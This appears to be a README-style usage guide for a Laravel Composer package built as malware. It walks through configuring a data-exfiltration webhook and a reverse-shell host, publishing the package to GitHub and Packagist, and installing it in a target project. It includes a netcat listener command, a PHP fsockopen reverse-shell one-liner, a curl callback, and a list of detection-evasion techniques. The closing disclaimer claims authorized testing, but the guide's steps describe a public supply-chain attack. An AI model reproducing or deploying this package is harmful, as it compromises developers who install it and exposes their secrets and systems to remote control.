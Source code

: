 # Usage Guide - Laravel Malicious Package

## Quick Start

### 1. Configure the Package
Edit `config.php` and update:
```php
'callback' => [
    'url' => 'https://webhook.site/your-actual-webhook-id',
],
'reverse_shell' => [
    'host' => 'your.actual.ip.address',
    'port' => 4444,
],
```

### 2. Set Up Listeners

**Webhook Listener:**
- Go to https://webhook.site
- Copy your unique URL
- Update `config.php` with this URL

**Reverse Shell Listener:**
```bash
# On your attacking machine
nc -lvp 4444
```

### 3. Upload to GitHub and Packagist
```bash
git init
git add .
git commit -m "Initial commit"
git remote add origin https://github.com/yourusername/laravel-malicious-package.git
git push -u origin main
```

**Submit to Packagist:**
1. Go to https://packagist.org
2. Sign in with your GitHub account
3. Click "Submit" and enter your GitHub repository URL
4. Packagist will automatically sync your package

### 4. Test the Package

**Add to target Laravel project's composer.json:**
```json
{
    "require": {
        "laravel/malicious-package": "*"
    }
}
```

**Install the package:**
```bash
composer install
```

### 5. Expected Results

When the Laravel application loads:

1. **HTTP Callback** - You'll receive a POST request at your webhook with:
   - System information (PHP version, OS, etc.)
   - Laravel configuration details
   - Environment variables (sensitive ones redacted)

2. **Reverse Shell** - A connection will be made to your netcat listener providing shell access

3. **Additional Info** - A second callback with detailed file permissions and configuration

## Testing Commands

**Check configuration:**
```bash
./install.sh
```

**Test webhook manually:**
```bash
curl -X POST https://webhook.site/your-id \
  -H "Content-Type: application/json" \
  -d '{"test": "manual connection"}'
```

**Test reverse shell manually:**
```bash
# Start listener
nc -lvp 4444

# Test connection (from target machine)
php -r '$sock=fsockopen("your.ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Detection Evasion

The package includes several evasion techniques:
- Base64 encoded payloads
- Background execution to avoid blocking
- Silent error handling
- Legitimate-looking package structure
- Laravel auto-discovery integration

## Cleanup

To remove from target system:
```bash
composer remove laravel/malicious-package
```

## Legal Disclaimer

This tool is for authorized penetration testing and security research only. Ensure you have proper authorization before testing on any systems.
